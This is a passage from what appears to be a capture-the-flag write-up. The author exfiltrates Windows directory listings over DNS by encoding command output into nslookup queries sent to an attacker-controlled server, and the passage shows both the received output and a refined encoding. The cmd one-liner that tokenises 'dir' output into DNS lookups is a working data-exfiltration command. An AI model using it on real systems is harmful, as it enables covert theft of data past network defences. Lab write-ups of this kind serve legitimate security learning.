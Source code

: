 Here’s what I received at my shell:

```

root@kali# ./ethereal_shell.py 
AVolume.BSerial.CNumber.Dis.EF06E-7663.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
ADirectory.Bof.CC:Users0xdftest.D.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
A0.BFile(s).C0.Dbytes.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
A2.BDir(s).C4,913,123,328.Dbytes.Efree.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.

```

There were seven lines in the dir, but only four reached me. I’ll look closer at one of the lines that had an error:

```

Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E..F.G.H.I.J.K.L.M.N.O.P.Q.
R.S.T.U.V.W.X.Y.Z: Unspecified error

```

That would have been this line:

```

02/25/2019  07:04 AM    <DIR>                       .

```

So the token that ended with a `.` led to two in a row, and therefore an invalid domain. That happened three times.

I can make this somewhat better by putting a letter before and after the token:

```

(FOR /F "tokens=1-26" %a IN ('dir /x') DO ( nsloo
kup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.
Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.1.1.41))

```

That gives 6 of the 7 lines (`..` still breaks things):

```

QVolumeX.QinX.QdriveX.QCX.QhasX.QnoX.Qlabel.X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
QVolumeX.QSerialX.QNumberX.QisX.QF06E-7663X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
QDirectoryX.QofX.QC:Users0xdftestX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
Q02/25/2019X.Q07:04X.QAMX.Q<DIR>X.Q.X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
Q0X.QFile(s)X.Q0X.QbytesX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
Q2X.QDir(s)X.Q4,912,214,016X.QbytesX.QfreeX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.

```
